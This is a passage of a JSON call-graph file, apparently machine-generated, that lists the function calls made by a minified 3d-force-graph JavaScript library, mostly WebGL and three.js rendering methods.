"calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "deleteAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getTransfer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "enableAll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "unshift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getParameter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bindVertexArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "deleteVertexArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "enableVertexAttribArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vertexAttribDivisor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "disableVertexAttribArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vertexAttribIPointer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vertexAttribPointer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getAttributes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getAttributes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getAttributes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bindBuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bindBuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vertexAttrib2fv"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vertexAttrib3fv"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vertexAttrib4fv"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vertexAttrib1fv"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bindBuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "drawArraysInstanced"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "drawArrays"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiDrawArraysWEBGL"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiDrawArraysInstancedWEBGL"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getShaderPrecisionFormat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getShaderPrecisionFormat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getShaderPrecisionFormat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getParameter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getParameter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getParameter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "convert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getParameter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "convert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getParameter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getParameter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getParameter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getParameter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getParameter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getParameter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getParameter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getParameter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getNormalMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyMatrix4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromEquirectangularTexture"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateProjectionMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setViewOffset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateProjectionMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clearViewOffset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateProjectionMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateProjectionMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "makeOrthographic"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "invert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_compileMaterial"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromScene"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getRenderTarget"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getActiveCubeFace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getActiveMipmapLevel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_setSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_allocateTargets"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_sceneToCubeUV"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_blur"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_applyPMREM"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_cleanup"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromEquirectangular"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_fromTexture"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromCubemap"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_fromTexture"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "compileCubemapShader"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_compileMaterial"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "compileEquirectangularShader"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_compileMaterial"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_setSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_cleanup"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setRenderTarget"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_fromTexture"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_setSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_setSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getRenderTarget"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getActiveCubeFace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getActiveMipmapLevel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_allocateTargets"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_textureToCubeUV"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_applyPMREM"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_cleanup"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_allocateTargets"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getSample"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cross"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bilinearCubeUV"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "main"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cross"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tif"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getSample"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tfor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tif"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "float"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getSample"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getSample"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_compileMaterial"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "compile"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_sceneToCubeUV"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getClearColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "lookAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "lookAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "lookAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setRenderTarget"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "render"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "render"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_textureToCubeUV"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setRenderTarget"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "render"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_applyPMREM"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_blur"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_blur"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_halfBlur"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_halfBlur"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_halfBlur"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isFinite"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isFinite"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "exp"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setRenderTarget"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "render"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "main"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "equirectUv"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "main"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "textureCube"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getDirection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tif"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "main"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getDirection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromEquirectangular"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromCubemap"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromEquirectangular"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromCubemap"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getExtension"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getExtension"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getExtension"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getExtension"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getExtension"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getExtension"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getExtension"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getExtension"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getExtension"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getExtension"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getExtension"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getExtension"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "releaseStatesOfGeometry"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": 